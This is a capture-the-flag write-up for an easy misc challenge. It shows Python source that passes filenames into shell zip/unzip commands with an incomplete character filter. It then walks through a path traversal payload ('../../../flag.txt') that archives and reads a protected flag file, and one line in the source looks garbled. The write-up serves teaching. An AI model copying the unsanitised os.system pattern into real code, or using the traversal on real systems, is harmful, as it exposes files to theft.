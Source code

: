 # Mass Zipruction

**Difficulty:** Easy
**Category:** Misc
**Source Code:** Available
**Author:** 0utc4st
**Description:** A single spark can ignite a wildfire

## Source Code

```python
import os
import zipfile
import re

def create_book(filename):
    if re.search(r'[;|&.$(){}/]', filename):
        return "\nInvalid filename"
    if not os.path.exists("books"):
        os.makedirs("books")
    filename = filename+'.txt'
    with open(os.path.join("books", filename), "w") as f:
        f.write("")
    return f"\nBook '{filename}' created successfully in the 'books' directory"

def check_stock():
    book_files = os.listdir("books")
    return f"\nStock information: Total books in stock: {len(book_files)}"

def write_to_book(filename, content):
    if re.search(r'[;|&.$(){}/]', filename):
        return "\nInvalid filename"
    with open(os.path.join("books", filename+'.txt'), "a") as f:
        f.write(content + "\n")
    return f"\nContent added to book '{filename}.txt'"

def read_book(filename):
    if re.search(r'[;|&.$(){}/]', filename):
        return "\nInvalid filename"
    try:
        with open(f"./books/{filename}.txt" ,"r") as f:
            content = f.read()
        return "\n"+content
    except FileNotFoundError:
        return f"\nBook '{filename}.txt' not found"

def archive_files(filename,dest):
    if re.search(r'[;|&$(){}]', filename):
        return "\nInvalid filename"
    os.system(f"zip -j books/{dest}.zip books/{filename}")
    return f"\nFiles archived successfully as {dest}.zip"

def unzip_archives(filename):
    if re.search(r'[;|&$(){}]', filename):
        return "\nInvalid filename"
    os.system(f"unzip books/{filename}.zip -d books/")
    return "\nFiles extracted successfully"

def list_files():
    books_directory = os.listdir("books")
    return "\n".join(books_directory)

def main():
    while True:
        print("\n\nOptions:")
        print("1. Create a book")
        print("2. Check stock")
        print("3. Write to book")
        print("4. Read book")
        print("5. Archive files")
        print("6. Unzip archives")
        print("7. List files")
        print("8. Exit")
        choice = input("Enter your choice: ")
        if choice == '1':
            filename = input("Enter filename for the book: ")
            response = create_book(filename)
        elif choice == '2':
            response = check_stock()
        elif choice == '3':
            filename = input("Enter filename to write to: ")
            content = input("Enter content to write to the book: ")
            response = write_to_book(filename, content)
        elif choice == '4':
            filename = input("Enter filename to read: ")
            response = read_book(filename)
        elif choice == '5':
            filename = input("Enter filename to archive: ")
            dest= input("Enter destination archive name: ")
            response = archive_files(filename,dest)
        elif choice == '6':Archive files
            filename = input("Enter filename to unzip: ")
            response = unzip_archives(filename)
        elif choice == '7':
            response = list_files()
        elif choice == '8':
            print("\nExiting the program.")
            break
        else:
            response = "\nInvalid choice"
        print(response)

if __name__ == "__main__":
    main()
```

## Solution

we see that the 5th option `Archive files` is not properly sanitizing the file name :

```python
def archive_files(filename,dest):
    if re.search(r'[;|&$(){}]', filename):
        return "\nInvalid filename"
    os.system(f"zip -j books/{dest}.zip books/{filename}")
    return f"\nFiles archived successfully as {dest}.zip"
```

which means we can inject malicious characters to perform a directory traversal and zip the flag which is in `/flag.txt`, then unzip it with the 6th option and read it's content.

let's do that, first we inject our directory traversal payload :

```plaintext
Enter your choice: 5
Enter filename to archive: ../../../flag.txt
Enter destination archive name: flag
updating: flag.txt (stored 0%)

Files archived successfully as flag.zip
```

we list the files with the 7th option to make sure the zip file exists :

```plaintext
Enter your choice: 7
flag.zip
```

now let's extract it :

```plaintext
Enter your choice: 6
Enter filename to unzip: flag
Archive:  books/flag.zip
 extracting: books/flag.txt

Files extracted successfully
```

now we read the flag :

```plaintext
Enter your choice: 4
Enter filename to read: flag

nexus{Z1p_1s_4_Bl3$$1ng_4nd_4_Cur$3}
```

## Flag

`nexus{Z1p_1s_4_Bl3$$1ng_4nd_4_Cur$3}`
